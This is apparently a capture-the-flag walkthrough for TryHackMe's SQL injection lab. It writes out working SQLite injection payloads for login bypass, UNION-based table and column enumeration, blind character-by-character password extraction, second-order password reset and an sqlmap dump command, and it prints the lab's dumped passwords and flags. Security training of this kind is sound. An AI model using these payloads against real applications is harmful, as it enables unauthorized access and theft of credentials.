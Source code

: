 # SQL Injection Lab

<details>
   <summary>Introduction to SQL Injection: Part 2</summary>       
 
   
- ``try to put this in email``
```
', nickName='test', email='hacked
```

> the nikname be came ``test`` and email ``hacked``

- ``want to know data base type``

```
', nickName=sqlite_version(), email='
```

> notice that the nikneame became ``3.22.0`` ==> SQLite

- ``SQLite store his tables in sqlite_master we will try to get all tables``

```
', nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'), email='
```

> found two tables ``usertable,secrets``

- ``find name of columns of table``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```
``found``

```
CREATE TABLE `usertable` ( `UID` integer primary key,
                           `name` varchar(30) NOT NULL,
                           `profileID` varchar(20) DEFAULT NULL,
                           `salary` int(9) DEFAULT NULL,
                           `passportNr` varchar(20) DEFAULT NULL,
                           `email` varchar(300) DEFAULT NULL,
                           `nickName` varchar(300) DEFAULT NULL,
                           `password` varchar(300) DEFAULT NULL )
```

- ``get usernames and passwords``

```
', nickName=(SELECT group_concat(name,password) FROM usertable), email='
```

> ``And booom``

``found``

```
Francois05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937
Michandrec69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac
Coletteb6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3
Phillipbe042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff
Ivan6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
Admin
```

> but here we want the flag so we will see colomns of another tabel ``secrets``

- ``find the flag``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```

``found``

```
CREATE TABLE secrets ( id integer primary key,
                       author integer not null,
                       secret text not null )
```

- ``get the flag``

```
', nickName=(SELECT group_concat(secret) FROM secrets), email='
```

``found``

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.,Donec viverra consequat quam,
 ut iaculis mi varius a. Phasellus.,Aliquam vestibulum massa justo, in vulputate velit ultrices ac.
 Donec.,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.,
THM{b3a540515dbd9847c29cffa1bef1edfb}
```



  
</details>




-----------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication</summary>

``write in username``
``
' or 1=1; -- -
``
  
</details>



----------------------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication-2</summary>

## ``first``

```
' OR 1=1-- -
```

> when logedin you will find the name of user in top right of page and also in cookie
>
> if you want to decode cookie you can use ``https://www.kirsle.net/wizards/flask-session.cgi`` or this script ``decode_cookie.py``
>
> you will find it like this :
> ```
> {
>    "challenge2_user_id": 1,
>    "challenge2_username": "admin"
> }
> ```


### ``now we will use UNION select to know number of columns that query ask for``

``back to login page and write: ``

```
' UNION SELECT NULL-- -
```
``it failed so will try: ``

```
' UNION SELECT NULL, NULL-- -
' UNION SELECT 1, 2-- -
```
``IT work now use``

⚠️⚠️⚠️

<details>
  <summary>found type of database and tabeles,....</summary>

``type of data_base``

```
' UNION SELECT sqlite_version(), NULL-- -
' UNION SELECT @@version, NULL-- -
```

> ``found that it is sqlite``

### `` now find tables in this database``

```
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
```

> found ``users``

### ``now find name of columns in table``

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```

``found:``

```
CREATE TABLE users ( id integer primary key,
                     username text unique not null,
                      password text not null )
```


  
</details>
⚠️⚠️⚠️

> found the name in top right became ``2``


``get all basswords of users``

```
' UNION SELECT 1, group_concat(password) FROM users-- -
```

``found``

```
Logged in as rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123 | 
```
**yapppp!!!**


</details>



-------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication 3 (Blind Injection)</summary>

### ``first try to know password length``

```
admin' AND length((SELECT password from users WHERE username='admin'))=1-- -
```
> change ``1`` untill login when login then this is password length you can user ``burp``
>
> found it in ``37``


### ``now try go guess every char in the password ``

```
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = CAST(X'54' as TEXT)-- -
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = a-- -
```
> first ``1`` mean first char in ``password``
>
> second ``1`` mean we use in every time one char
>
> when found first char true change first ``1`` to ``2`` and so on .....

#### ``OR`` YOU can use ``SQLmap``

```
sqlmap -u http://10.10.247.180:5000/challenge3/login \--data="username=admin&password=admin" \--level=5 --risk=3 --dbms=sqlite --technique=B --dump
```
> found this

```
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{f1f4e0757a09a0b87eeb2f33bca6a5cb} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

```


   
</details>


-------------------------------------------------------------------------------------------------------------------------------------



<details>
   <summary>Vulnerable Startup: Vulnerable Notes</summary>

- > login not vuln but when you enter vuln username it can used when do insert in notes
  >
  > ``login`` with
  >
  > ```
  > ' union select 1, group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'--
  > ```
  >
  > open notes you will found :
  >
  > ```
  > users,notes
  > ```
  >
  > so it's vuln and you now know tables names
  >
  > now use :
  >
  > ```
  > '  union select 1,group_concat(password) from users'
  > ```
  >
  > ``found``
  >
  > ```
  > THM{4644c7e157fd5498e7e4026c89650814}
  > ```

   
</details>




--------------------------------------------------------------------------------------------------------------------------------------





<details>
     <summary>Vulnerable Startup: Change Password (i like it) 💯</summary>

- > create account using this name:
  >
  > ``admin'-- -``
  >
  > after login we will try to change password , reset password query is not scure this it is :
  >
  > ```
  > UPDATE users SET password = ? WHERE username = 'admin'-- -'
  > ```
  >
  > in this way we change passowrd of ``admin`` user
  >
  > after that login with new passowrd ``admin:123``
  >
  > and ``found``
  >
  > ```
  >  THM{cd5c4f197d708fda06979f13d8081013} 
  > ```
  >
  
   
</details>






-------------------------------------------------------------------------------------------------------------------------------------------










<details>
    <summary>Vulnerable Startup: Book Title</summary>

- > function of search on books it's query is vuln:
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '" + title + "%')
  > ```
  >
  > we will found in url the title like this
  >
  > ``http://10.10.216.224:5000/challenge6/book?title=test``
  >
  > it's query is :
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE 'test%')
  > ```
  >
  > if i write **``') OR 1=1-- -``**
  >
  > the query will be like
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '') OR 1=1-- -')
  > ```
  >
  > and it will give us all books : )
  >
  > and now we can user UNION select to get our tables and it's data
  >
  > ![MuaKissGIF](https://github.com/user-attachments/assets/9eef9bc5-c0b9-4e1c-98f2-21e5e00b8d0e)
  >
  > after that write:

  ⚠️⚠️⚠️
<details>
   <summary>get name of table and it's column</summary>

   - > ```
     > ') UNOIN select 1-- -
     > ```
     > no output untill found
     >
     > ```
     > ') union select 1,2,3,4-- -
     > ```
     >
     > ### now we need to know tables name
     >
     > ```
     > ') UNION SELECT 1,2,3, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
     > ```
     >
     > found
     > **``users,notes,books``**
     >
     > ### ``now find colmn names``
     >
     > ```
     > ') UNION SELECT 1,2,3,sql FROM sqlite_master WHERE name='users' AND type='table'-- -
     > ```
     >
     > found
     > 
     > ```
     > CREATE TABLE users ( id integer primary key,
     >                      username text unique not null,
     >                      password text not null )
     > ```
     >
     > ### get passowrds
     >
     > ```
     > ') union select 1,2,3,group_concat(password) from users-- -
     > ```
     >
     >  ```
     >  THM{27f8f7ce3c05ca8d6553bc5948a89210},asd,Summer2019!,345m3io4hj3,viking123,123
     >  ```
   
</details>
⚠️⚠️⚠️⚠️
   
   - >
     > found that there is users tabel and column call password
     > 
     > ```
     > ') union select 1,2,3,group_concat(password) from users-- -
     > ```
     >
     > ```
     > THM{27f8f7ce3c05ca8d6553bc5948a89210},asd,Summer2019!,345m3io4hj3,viking123,123
     > ```
     > ![MuaKissGIF](https://github.com/user-attachments/assets/9eef9bc5-c0b9-4e1c-98f2-21e5e00b8d0e)
     > 
    
  

  
  
  

   
</details>







---------------------------------------------------------------------------------------------------------------------------------------------




<details>
    <summary>Vulnerable Startup: Book Title 2</summary>


- > in this challenge the query it take two union select
  > ![image](https://github.com/user-attachments/assets/694bd1f1-c501-4b08-bc2c-a2733ebef701)
  >
  > so if i write ``10.10.216.224:5000/challenge7/book?title=' union select '1' -- -``
  >
  > i will see content of book that it's ``id=1``
  > ![image](https://github.com/user-attachments/assets/4947ebae-0843-4456-a88a-04fecb47e3b3)
  >
  > now if i put :
  >
  > ```
  > http://10.10.216.224:5000/challenge7/book?title=' union select '-1''union select 1,27,3,44-- -
  > ```
  > that will be the output
  >
  > ![image](https://github.com/user-attachments/assets/680c37e4-6fe1-4a55-9645-e5a43b0ad488)
  
<details>
  <summary>know tables and ....</summary>

```
' union select '-1''union select 1,2,3,sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```
   
</details>



- > 
  > ### ``now get the passowrd``
  >
  > ```
  > ' union select '-1''union select 1,2,3,group_concat(password) from users-- -
  > ```
  >
  > found
  >
  > ``
  > THM{183526c1843c09809695a9979a672f09},asd,Summer2019!,345m3io4hj3,viking123,123
  > ``   





   
</details>


















---
---
---
---



# ``payloads``

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
